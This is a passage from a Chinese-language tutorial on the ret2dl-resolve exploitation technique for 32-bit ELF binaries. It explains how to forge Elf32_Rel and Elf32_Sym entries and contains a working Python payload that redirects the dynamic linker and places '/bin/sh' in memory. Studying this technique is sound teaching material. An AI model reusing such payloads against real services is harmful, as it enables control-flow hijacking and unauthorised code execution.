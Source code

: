 接下来，我们更进一步，伪造一个 write 函数的 Elf32_Rel 结构体，原结构体在 `.rel.plt` 中，如下所示：

```C
typedef struct
{
  Elf32_Addr    r_offset;       /* Address */
  Elf32_Word    r_info;         /* Relocation type and symbol index */
} Elf32_Rel;
```

```text
$ readelf -r a.out | grep write
0804a01c  00000707 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

该结构体的 `r_offset` 是 write@got 地址，即 `0x0804a01c`，`r_info` 是 `0x707`。动态装载器通过 reloc_index 找到它，而 reloc\_index 是相对于 `.rel.plt` 的偏移，所以我们如果控制了这个偏移，就可以跳转到伪造的 write 上。payload 如下：

```python
reloc_index = base_addr + 28 - rel_plt  # fake_reloc = base_addr + 28

r_info = 0x707
fake_reloc = p32(write_got) + p32(r_info)

payload_4  = "AAAA"
payload_4 += p32(plt_0)
payload_4 += p32(reloc_index)
payload_4 += "AAAA"
payload_4 += p32(1)
payload_4 += p32(base_addr + 80)
payload_4 += p32(len("/bin/sh"))
payload_4 += fake_reloc
payload_4 += "A" * (80 - len(payload_4))
payload_4 += "/bin/sh\x00"
payload_4 += "A" * (100 - len(payload_4))

io.sendline(payload_4)
print io.recv()
```

另外讲一讲 Elf32_Rel 值的计算方法如下，我们下面会得用到：

```C
#define ELF32_R_SYM(val)        ((val) >> 8)
#define ELF32_R_TYPE(val)       ((val) & 0xff)
#define ELF32_R_INFO(sym, type)     (((sym) << 8) + ((type) & 0xff))
```

- `ELF32_R_SYM(0x707) = (0x707 >> 8) = 0x7`，即 `.dynsym` 的第 7 行
- `ELF32_R_TYPE(0x707) = (0x707 & 0xff) = 0x7`，即 `#define R_386_JMP_SLOT 7 /* Create PLT entry */`
- `ELF32_R_INFO(0x7, 0x7) = (((0x7 << 8) + ((0x7) & 0xff)) = 0x707`，即 r_info

这一次，伪造位于 `.dynsym` 段的结构体 Elf32_Sym，原结构体如下：

```C
typedef struct
{
  Elf32_Word    st_name;        /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;       /* Symbol value */
  Elf32_Word    st_size;        /* Symbol size */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf32_Section st_shndx;       /* Section index */
} Elf32_Sym;
```
